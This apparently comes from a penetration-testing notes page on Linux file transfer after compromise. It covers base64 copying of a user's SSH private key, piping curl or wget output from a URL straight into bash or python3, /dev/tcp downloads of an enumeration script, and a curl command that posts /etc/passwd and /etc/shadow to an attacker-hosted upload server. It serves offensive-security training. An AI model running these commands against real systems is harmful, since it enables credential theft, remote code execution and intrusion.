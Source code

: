 # Linux File Transfer Methods

## Base64 encoding

This is helpful in scenarios like <mark style="color:green;">copying the ssh key of a user to our local machine.</mark>

```bash
$cat id_rsa |base64 -w 0;echo
#Now we decode the data on the other machine:
$echo -n "encoded string" | base64 -d > id_rsa
```

to verify if the transfer was indeed successful we could check the md5 hashes on the two machines:

```bash
$md5sum id_rsa
```

## cURL / wget

```bash
$wget <url> -O output_filename
$curl <url> -o output_filename
```

We could turn the functioning of pipes to our advantage to make a [<mark style="color:red;">fileless attack.</mark>](https://learn.microsoft.com/en-us/defender-endpoint/malware/fileless-threats)&#x20;

```bash
$wget -q0- <url_to_a_bash_script> | bash
$curl  <url_to_a_python_script> | python3
```

{% hint style="danger" %}
The <mark style="color:red;">`-qO-`</mark> option is necessary for wget to function correctly because if not specified, it will indeed download the file. <mark style="color:red;">`-`</mark> stands for STDOUT which is then piped directly to the python interpreter.
{% endhint %}

## Download with Bash (/dev/tcp)

We should start a listener on a machine (our host or the target's) then use the built-in /dev/TCP device file to open a connection.

```bash
attack@attack$nc -nlvp <port>
```

<pre class="language-bash"><code class="lang-bash">target@target$exec <a data-footnote-ref href="#user-content-fn-1">3&#x3C;></a>/dev/tcp/machine-to-connect-to/port
target@target$echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&#x26;3
target@target$cat &#x3C;&#x26;3 > LinEnum.sh # Reads from FD3 and saves it to LinEnum.sh
</code></pre>

Or you could upload the file from your machine using:

```bash
target@target$nc -lvp 4444 > file_on_target
```

```bash
attack@attack$exec 3<>/dev/tcp/target-ip/port
attack@attack$cat my_file >&3
```

And finally to close the connection:

```bash
$exec 3<&- 3>&-
```

{% hint style="info" %}
<mark style="color:blue;">In conclusion, the</mark> <mark style="color:blue;"></mark><mark style="color:blue;">`/dev/tcp/hostname/ip`</mark> <mark style="color:blue;"></mark><mark style="color:blue;">is our go-to if the wget, cURL or any other method can't work since it might be already compiled (it is by default as long as bash is v2.04 or greater).</mark>

<mark style="color:blue;">The idea is to</mark>

* <mark style="color:blue;">open a listener on a machine (target or attacking host)</mark>
* &#x20;<mark style="color:blue;">launch a connection with the built-in dev file from the other.</mark>
* <mark style="color:blue;">Use a GET request or</mark> <mark style="color:blue;"></mark><mark style="color:blue;">`cat`</mark> <mark style="color:blue;"></mark><mark style="color:blue;">command and then redirect it to the FD... It all depends on the need and the method available since inbound or outbound connections could be denied and restricted.</mark>

<mark style="color:blue;">About the 3<> part of the command :</mark>

* <mark style="color:blue;">`3`</mark> <mark style="color:blue;"></mark><mark style="color:blue;">refers to the file descriptor number. In Unix-like systems, file descriptors are used to manage input/output streams. File descriptors</mark> <mark style="color:blue;"></mark><mark style="color:blue;">`0`</mark><mark style="color:blue;">,</mark> <mark style="color:blue;"></mark><mark style="color:blue;">`1`</mark><mark style="color:blue;">, and</mark> <mark style="color:blue;"></mark><mark style="color:blue;">`2`</mark> <mark style="color:blue;"></mark><mark style="color:blue;">correspond to standard input, output, and error, respectively. The number</mark> <mark style="color:blue;"></mark><mark style="color:blue;">`3`</mark> <mark style="color:blue;"></mark><mark style="color:blue;">is chosen here to create a new file descriptor for the TCP connection.</mark>
* <mark style="color:blue;">The</mark> <mark style="color:blue;"></mark><mark style="color:blue;">`<>`</mark> <mark style="color:blue;"></mark><mark style="color:blue;">syntax means "open for reading and writing." This opens the file descriptor</mark> <mark style="color:blue;"></mark><mark style="color:blue;">`3`</mark> <mark style="color:blue;"></mark><mark style="color:blue;">as both readable and writable, allowing you to send data to and receive data from the remote server.</mark>
{% endhint %}

## SSH-SCP

> `SCP` (secure copy) is a command-line utility that allows you to copy files and directories between two hosts securely. We can copy our files from local to remote servers and from remote servers to our local machine.
>
> `SCP` is very similar to `copy` or `cp`, but instead of providing a local path, we need to specify a username, the remote IP address or DNS name, and the user's credentials.

Before using scp, we must start ssh:

```bash
# Running ssh
$sudo systemctl start ssh
$netstat -lnpt

# scp for Downloads:
$scp username@remote_host:/path/to/remote/file /path/to/local/directory

# scp for Uploads:
$scp /path/to/local/file username@remote_host:/path/to/remote/directory
```

## Web Uploads

#### HTTPS python server

The idea of this part is hosting a web server on our attacking machine and upload the wanted files from the target host. For this we'll need the [uploadserver module](https://github.com/Densaugeo/uploadserver).

```bash
# Installation
$sudo python3 -m pip install --user uploadserver

# Creating a Self-Signed certificate for the HTTPS protocol
$openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'

# Setting up and running the server
$mkdir https && cd https
$sudo python3 -m uploadserver 443 --server-certificate ~/server.pem
File upload available at /upload
Serving HTTPS on 0.0.0.0 port 443 (https://0.0.0.0:443/) ...

# Starting the upload from the compromised machine
$curl -X POST https://attacking_IP/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure
```

{% hint style="info" %}
The `--insecure` option is necessary since we used a Self-Signed certificate.
{% endhint %}

### Simple HTTP servers

Depending on what's installed on the compromised machine, we can run a HTTP server using one of these commands:

```bash
# 1. Python
$python3 -m http.server

    Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

$python2.7 -m SimpleHTTPServer

    Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

# 2. PHP
$php -S 0.0.0.0:8000

    [Fri May 20 08:16:47 2022] PHP 7.4.28 Development Server (http://0.0.0.0:8000) started

# 3.Ruby
$ruby -run -ehttpd . -p8000

    [2022-05-23 09:35:46] INFO  WEBrick 1.6.1
    [2022-05-23 09:35:46] INFO  ruby 2.7.4 (2021-07-07) [x86_64-linux-gnu]
    [2022-05-23 09:35:46] INFO  WEBrick::HTTPServer#start: pid=1705 port=8000
```

After running one of these one-liners, we can then download the files we prefer using a simple wget command:

```bash
$wget target_IP:8000/filetotransfer.txt
```

[^1]: Explained below.
